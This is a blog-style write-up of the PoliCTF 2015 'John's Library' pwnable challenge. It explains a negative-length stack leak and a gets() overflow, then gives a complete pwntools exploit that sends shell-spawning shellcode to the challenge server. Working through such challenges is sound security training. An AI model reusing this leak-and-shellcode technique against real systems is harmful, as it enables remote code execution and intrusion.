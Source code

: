 ```yaml
---
layout: post
title:  "PoliCTF 2015 - John's Library"
date:   2015-08-05 18:03:59
categories: CTF Pwnable
---
```


Do you like reading books? here we have the best collection ever! you can even save some books for future reading!! enjoy noob!

## Recon

We are presented with the following menu upon connection:

```
Welcome to the jungle library mate! Try to escape!!

r - read from library
a - add element
u - exit
```

There is two bits of functionality that we have access to

### Add book to library

```
 r - read from library
 a - add element
 u - exit
a
Hey mate! Insert how long is the book title:
8
deadbeef
```

With adding a book, we input two values:

* Length of the text
* The text itself

The interesting bit is that the length of each book is stored in a global array located at `0x804a060`. The text is stored in a buffer located on the stack. This address is passed to both the read and add functions as an argument.

### Reading from the library

```
 r - read from library
 a - add element
 u - exit
r
Insert the index of the book you want to read: 0
deadbeef
```

This function takes the index of a book and reads the information stored at that index. This calculation is done by reading the corresponding stored length from `0x804a060 + index`
and adding that length to the beginning of the buffer passed to the function (which is also on the stack).

### Vulnerabilities

There are two bugs in the code.

* The data stored in the buffer is read via a `gets()` call, causing a traditional stack overflow. This is exploited upon exiting the program.
* The length of the book isn't checked for being negative. This allows us to arbitrarily read valvues on the stack. It just so happens that the start of the buffer is pushed on the stack as a parameter to both read and add functions. An example stack is below (addresses are not accurate)

```
+-------------------+
| Pointer to buffer | 0x400000
+-------------------+
| .....             |
+-------------------+
| Buf               | 0x40001b
|                   |
|                   |
+-------------------+
```

### Exploit

The stack is randomized on the remote server. We can't hard code the stack address, as we won't know what it is at execution. We have to leak this address.

By supplying a `-0x1b` length for the first book and then reading that book's index, we can actually read the beginning of the buffer, giving us a static address to jump to for our shellcode.


Exploit will work as follows:

* Create a book with `-28` length (data for the book is irrevelent)
* Read that book via index 0 and retrieve the 4 bytes of the stack
* Add a second book, but this time overflow via `gets()` with our shellcode at the beginning of the buffer and returning to our leaked stack address.
* Exit the program via `u`
* ???
* Profit

### Final Exploit

```python
from pwn import *

"""
Both functions are given a pointer to a stack address (named BUFF)
Add function (overflow):
Drops the given length into a global buffer starting at 0x804a060
There is no negative check, so feeding a negative value passes the check
Vulnerable gets() function drops input into BUFF

Read (mem leak):
Takes the previously given length from add and adds that offset in BUFF
Because we can use negative values, we can looks backwards on the stack
to discover the beginning address of BUFF

Exit (trigger):
The overflow from the add isn't exploited until exiting the program
"""


# r = process('./johns-library')
r = remote('library.polictf.it', 80)

# Debugging help with gdb
'''
gdb.attach(r, """
bp 0x8048640
bp 0x8048742
c
""")
'''

log.info("Setting up leak of buffer")
r.sendline('a')
r.sendline(str(-28)) # Set len to subtract to find original buffer location
r.sendline()

log.info("Leaking buffer")
r.sendline('r')
r.sendline('1')
r.recv()
r.recv()
r.recvuntil('read: ')

ret = r.recv()[:4]

log.info('Got buffer: {}'.format(ret[::-1].encode('hex')))

log.info("Preparing shellcode")
shellcode = '\x90' * 900 + asm(shellcraft.sh())

payload = shellcode
payload += cyclic(cyclic_find('aaks') - len(shellcode))
payload += ret
payload += 'a' * (1000 - len(payload))

log.info("Sending shellcode")
r.sendline('a')
r.sendline(payload)

log.info("Exiting problem, causing the exploit")
r.sendline('u')

log.success("And your shell...")
r.interactive()
```
